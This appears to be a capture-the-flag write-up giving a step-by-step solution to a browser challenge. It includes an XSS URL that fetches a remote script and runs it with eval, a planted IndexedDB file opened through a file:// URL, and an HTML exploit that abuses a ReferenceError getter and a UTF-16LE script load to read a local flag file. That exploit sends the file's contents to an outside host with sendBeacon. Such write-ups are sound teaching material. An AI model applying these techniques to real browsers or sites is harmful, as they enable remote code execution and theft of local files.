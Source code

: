 ### Sourceless solution

0. Spawn glitch by going to https://terjanq-logger.glitch.me/ and wait for it to load.
1. Send admin to `https://terjanq.me/xss.php?js=fetch(%27https://gist.githubusercontent.com/terjanq/32181ae8da2ed8b76fae6ef59e813390/raw/7fb8bf95c2447350e4b38b30135667ace3044acb/sourceless-exploit.js%27).then(e=%3Ee.text()).then(e=%3Eeval(e))`
   * This will add an explot file in IndexedDB
2. Send admin to `file:///tmp/firefox-userdata/storage/default/https+++terjanq.me^userContextId=6/idb/2774579512mByD.files/1`
   * This is file added to the IndexedDB. It will sniff it as HTML and then leak `file:///flag.txt`
   * NOTE: after multiple tries, the userContextId incrments, you might want to brute-force the value. Simirarly `2774579512mByD` might be different if you used a different DB name.
3. Visit https://terjanq-logger.glitch.me/log2?id=sourceless&secret=aoceb2eqbyqn2x0b0pladswaggvql4rtl72r6exrqjfq1uauamxpi that should include the leaked flag

The exploit is basically:

```html
  <script>
    ReferenceError.prototype.__defineGetter__('name', function(){
      const variable = this.message.split(' is ')[0];
      let decoded = '';

      for(const u16 of [...variable]){
        const i = u16.charCodeAt(0);
        decoded += String.fromCharCode(i % 256);
        decoded += String.fromCharCode(i >> 8);
      }
      navigator.sendBeacon('https://bin.graversen.io/api/d758ecef-efdb-4e9e-9c7d-47e966bf8524', decoded)
    });
  </script>
  <script charset=utf-16le src="file:///flag.txt"></script>
```
